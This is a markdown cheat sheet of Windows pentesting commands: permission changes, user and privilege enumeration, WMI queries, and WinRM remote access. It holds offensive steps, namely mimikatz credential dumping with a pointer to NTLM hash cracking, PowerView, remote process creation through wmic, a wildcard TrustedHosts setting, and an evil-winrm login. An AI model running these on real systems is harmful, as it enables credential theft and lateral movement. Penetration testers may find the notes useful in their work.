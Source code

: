 | **Command** | **Description** |
| --------------|-------------------|
`icacls c:\users /grant joe:f`| Grant Folder Permissions
`icacls c:\users /remove joe` | Revoke Folder Permissions
`.\PowerView.ps1;Get-LocalGroup` | Run Command from PowerShell program
`get-alias` | Get Alias (ls command -> Get-Child on windows)

### Windows user privileges/groups
``` 
wmic useraccount get domain,name,sid
wmic group get domain,name,sid

whoami /user
whoami /priv
whoami /all
```

### mimikatz
Can crack NTLM hashes with: https://crackstation.net/
```
privilege::debug
log nameoflog.log
sekurlsa::logonpasswords

or if you can't enter the interactive prompt (all on one line)
mimikatz log privilege::debug sekurlsa::logonpasswords exit
```

## Windows Management Instrumentation (WMI)
- `wmic useraccount get domain,name,sid` (if not working, type wmic first, then the rest)
- `Get-WmiObject -Class Win32_OperatingSystem | select SystemDirectory,BuildNumber,SerialNumber,Version | ft` -- getting good information/serial number/os
- `Invoke-WmiMethod -Path "CIM_DataFile.Name='C:\users\public\spns.csv'" -Name Rename -ArgumentList "C:\Users\Public\kerberoasted_users.csv"` -- renaming a file, which will return a success code of '0'

### Testing for remote WinRM connection (port 5985)
``` 
Enable-PSRemoting -Force
Set-Item wsman:\localhost\client\trustedhosts *
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"

then finally..

Test-WSMan -computername NAME_HERE

then connecting

Invoke-Command -computername computer-name.domain.tld -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]
or
./evil-winrm.rb -u bob -p Frankie -i 192.168.2.212
```
